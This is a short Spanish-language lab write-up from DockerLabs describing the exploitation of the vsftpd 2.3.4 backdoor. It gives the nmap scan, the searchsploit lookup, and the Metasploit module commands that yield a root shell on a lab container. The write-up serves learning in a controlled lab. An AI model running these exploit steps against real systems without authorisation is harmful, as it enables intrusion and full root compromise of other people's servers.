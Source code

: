 # Write-up - Explotación FTP vsftpd 2.3.4

**Sitio:** DockerLabs  
**Dificultad:** Muy Fácil  
**Fecha:** 27/05/2025  
**Aprendizaje:** Refresqué conceptos sobre el uso de `searchsploit` y aprendí un poco más sobre vulnerabilidades conocidas en servicios FTP, en este 
caso, una versión vulnerable de `vsftpd`.  
Esta máquina me permitió identificar un servicio FTP vulnerable, buscar un exploit con searchsploit, y explotarlo usando Metasploit. También me sirvió para seguir incorporando el 
flujo clásico de: detección de servicio → identificación de versión → explotación controlada en entorno de laboratorio.

---

## 1. Recopilación de información

`nmap -sSV -O --open 172.17.0.2`

> Resultado:

Sistema operativo: `Linux 4.x`  
Puerto `21/tcp` abierto  
Servicio detectado: `vsftpd 2.3.4`  

### 2. Búsqueda del exploit con searchsploit

`searchsploit vsftpd 2.3.4`

> Resultado:

`vsftpd 2.3.4 - Backdoor Command Execution ⇒ unix/remote/49757.py`  
`vsftpd 2.3.4 - Backdoor Command Execution (Metasploit) ⇒ unix/remote/17491.rb`  

> Luego copié el exploit con:

`searchsploit -m 49757`

### 3. Uso de Metasploit

Dentro de `msfconsole`:

`search vsftpd 2.3.4`  
`use exploit/unix/ftp/vsftpd_234_backdoor`  
`run`  

Una vez obtenida la sesión:

whoami
> root
